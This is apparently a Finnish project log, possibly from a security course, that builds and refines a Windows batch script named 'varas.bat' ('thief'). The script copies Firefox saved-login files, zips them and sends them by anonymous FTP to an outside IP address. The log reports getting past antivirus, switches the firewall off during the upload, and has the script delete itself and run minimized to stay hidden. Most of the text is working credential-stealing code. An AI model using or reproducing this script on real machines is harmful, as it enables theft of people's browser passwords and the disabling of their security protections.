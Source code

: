 ```
echo quote pasv>> temp.txt
echo binary>> temp.txt
echo send C:\salasanat\salasanat.zip>> temp.txt
echo quit>> temp.txt
ftp -s:temp.txt
del temp.txt
del varas.bat
```

Scripti toimi kokonaisuudessaan loistavasti ja tiedostot tulivat perille nätisti.  
Päätin vielä kuitenkin kokeilla scriptiä täysin puhtaalla koneella.  
Puhtaalla koneella ajettaessa palomuuri kysyi kuitenkin yhteyden avauksen yhteydessä, että sallitaanko yhteys. Tekemäni poikkeukset eivät siis vaikuttaneet tähän vielä.  
Virustorjunnoista kumpikaan ei kuitenkaan valittanut tästä scriptistä yhtään, vaan antoivat sen mennä läpi sellaisenaan. Eli virustorjunnan ohitus on onnistunut.  
Jatkan vielä tutkimista miten tuon palomuurin promptin saisi estettyä, jotta ohjelma pysyisi stealthimpana.  

### Päivitys 24.10.2018

#### Palomuuri promptin ohitus.
Palomuuri promptin ohitus olikin melko yksinkertainen.  
Käytin .batissa vain palomuurin sulkemiskomentoa:
```
netsh advfirewall set allprofiles state off
```
Käytin komentoa juuri ennen kuin ftp yhteys avataan ja kun tiedosto on lähetetty, niin laitan palomuurin takaisin päälle komennolla:
```
netsh advfirewall set allprofiles state on
```
  
Kokonaisuudessaan toimiva .bat näyttää nyt siis tältä:
```
mkdir C:\salasanat\
powershell Copy-Item -Path C:\Users\*\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\logins.json -Destination C:\salasanat\
powershell Copy-Item -Path C:\Users\*\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\key*.db -Destination C:\salasanat\
powershell Compress-Archive -Path C:\salasanat -DestinationPath C:\salasanat\salasanat.zip
@echo off
echo open 172.28.171.247> temp.txt
echo anonymous>> temp.txt
echo asd >> temp.txt
echo cd salasanat>> temp.txt
echo quote pasv>> temp.txt
echo binary>> temp.txt
echo send C:\salasanat\salasanat.zip>> temp.txt
echo quit>> temp.txt
netsh advfirewall set allprofiles state off
ftp -s:temp.txt
netsh advfirewall set allprofiles state on
del temp.txt
del varas.bat
```
Päätin vielä lisäillä muutaman kohdan, jotta .bat poistaa itsensä ja pysyy minimized tilassa ollakseen huomaamaton.  
Lisäsin batin alkuun kohdan:
```
@echo off
if "%1"=="done" goto runtime
start "" /min %0 done
exit

:runtime
```